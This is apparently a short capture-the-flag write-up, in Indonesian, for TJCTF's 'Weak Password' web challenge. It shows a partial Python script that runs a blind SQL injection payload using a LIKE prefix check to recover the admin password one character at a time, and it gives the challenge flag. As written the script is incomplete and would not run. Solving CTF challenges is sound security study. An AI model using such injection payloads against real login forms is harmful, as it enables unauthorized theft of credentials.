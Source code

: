 ## Weak Password, 50 ##

Soal : 

`It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})`

[Site](http://weak_password.tjctf.org)

Jika melakukan SQL injection, kita berhasil login, tetapi tidak ada apa apa di halaman login, karena yang kita butuhkan adalah passwordnya.

Maka satu satunya jalan adalah melakukan bruteforce. Kita tau dari soal kalau password hanya berupa lowercase dan number. Kita bisa buat script seperti ini :

```py
pass = ""
a = None
while True:
    if a == pass:
        break
    a = str(pass)

    for i in char:
        data = {
            "username":"admin' AND password LIKE '{}%';-- ".format(pass+i),
            "password":""
        }
 ```
 Kita gunakan `LIKE` disini untuk mengecek per sequence apakah password di urutan itu adalah huruf itu. 
 
 Flag : `tjctf{blindsqli14519}`
